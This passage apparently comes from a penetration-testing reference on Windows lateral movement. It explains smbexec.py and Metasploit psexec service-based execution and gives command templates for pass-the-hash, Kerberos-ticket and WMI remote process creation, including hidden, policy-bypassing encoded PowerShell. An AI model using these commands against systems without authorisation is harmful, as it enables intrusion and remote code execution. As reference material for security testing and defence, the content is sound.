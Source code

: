 `smbexec.py` rely on `%COMSPEC%` (`cmd.exe`) and will, for each specified
command, create a Windows service that `echo` the command in a temporary file
(`%TEMP%\execute.bat`), then execute and ultimately delete the `bat` file.        

The `Metasploit`'s `exploit/windows/smb/psexec` module rely on both `%COMSPEC%`
and `powershell.exe` and will create a Windows service that execute the
specified payload (bind / reverse `meterpreter`, single command, etc.) through
a `PowerShell` one-liner.  

`Metasploit` will generate a random name for the Windows service while
`smbexec.py`, by default, create a service named `BTOBTO`.

```
# NTLM authentication
smbexec.py [-service-name <SERVICE_NAME>] [-target-ip <TARGET_IP>] [-port [<PORT>]] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> [<COMMAND> <COMMAND_ARGS>]
smbexec.py [-service-name <SERVICE_NAME>] -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [-port [<PORT>]] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> [<COMMAND> <COMMAND_ARGS>]

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
smbexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]

# If using a password hash, set SMBPass to <LM_HASH:NT_HASH>
msf> use exploit/windows/smb/psexec_psh
```

###### Over WMI

The `Windows Management Instrumentation (WMI)` is a Microsoft suite of tools
used to retrieve management data and manage Windows assets both locally and
over the network.  

`WMI` rely on two protocols when used over the network: `DCOM` (by default) and
`WinRM`. DCOM establishes an initial connection over TCP port 135 and any
subsequent data is then exchanged over a randomly selected TCP port.

`WMI` is divided in a collection of predefined classes. The `Win32_Process`
class can be used to start a process and the `Win32_Product` class can be used
to install an MSI installer package, both locally and remotely.

```
# <COMMAND> example: <cmd.exe | powershell.exe | cmd.exe /c '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c '<COMMAND> <COMMAND_ARGS>' | powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C '<COMMAND> <COMMAND_ARGS>' | powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <ENCODED_BASE64_CMD> | ...>

wmic /node:"<IP | HOSTNAME>" process call create "<COMMAND>"
wmic /node:"<HOST1>","<HOST2>",...,"<HOST_N>" process call create "<COMMAND>"
# Takes in input a list of hosts in the given file.
wmic /failfast:on /node:@<FILE> process call create "<COMMAND>"
wmic /user:"<DOMAIN | WORKGROUP>\<USERNAME>" /password:"<PASSWORD>" /node:<IP | HOSTNAME> process call create "<COMMAND>"

Invoke-WmiMethod -Class Win32_Process -Name Create "<COMMAND>"
Invoke-WmiMethod -ComputerName <IP | HOSTNAME> -Credential <PSCredential> -Class Win32_Process -Name Create "<COMMAND>"
```
